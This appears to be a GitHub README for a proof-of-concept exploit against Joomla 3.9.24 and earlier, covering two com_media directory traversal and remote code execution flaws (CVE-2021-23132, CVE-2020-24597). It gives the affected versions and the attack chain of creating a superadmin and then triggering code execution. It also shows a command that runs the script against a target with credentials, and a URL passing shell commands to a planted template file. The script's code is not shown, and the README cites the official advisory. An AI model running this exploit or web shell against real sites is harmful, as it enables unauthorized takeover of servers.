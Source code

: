 # CVE-2021-23132
com_media allowed paths that are not intended for image uploads to RCE.

# CVE-2020-24597
Directory traversal in com_media to RCE

Two CVEs are the same.

PoC (Full)

Affected version: Joomla core <=3.9.24

User requirement: Admin account (Not Superadmin)

Gain access: Create superadmin, then trigger RCE.

Remote Code Execution (RCE) in Joomla

Run `cve-2021-23132.py` with your credentials and access link rce:

`http://target/templates/protostar/error.php?cmd=ls `

PoC:
 ```
 python3 cve-2021-23132.py -url http://192.168.72.140 -u admin -p 1234  -rce 1 -cmd ls
 ```

![image](https://user-images.githubusercontent.com/24661746/109748558-a898c200-7c0b-11eb-865f-ed903f23b4d9.png)

I wrote PoC to be able to use `Directory Traversal` or RCE mode.

I used `Directory Traversal` to trigger RCE.

You can use `python3 cve-2021-23132.py -h` to how to use PoC.

Note: Make sure you used python3 and install `lmxl` by `pip3 install lxml`

# DISCLAIMER

*Please use your research and help Joomla more secure.*

# References

https://developer.joomla.org/security-centre/846-20210306-core-com-media-allowed-paths-that-are-not-intended-for-image-uploads.html
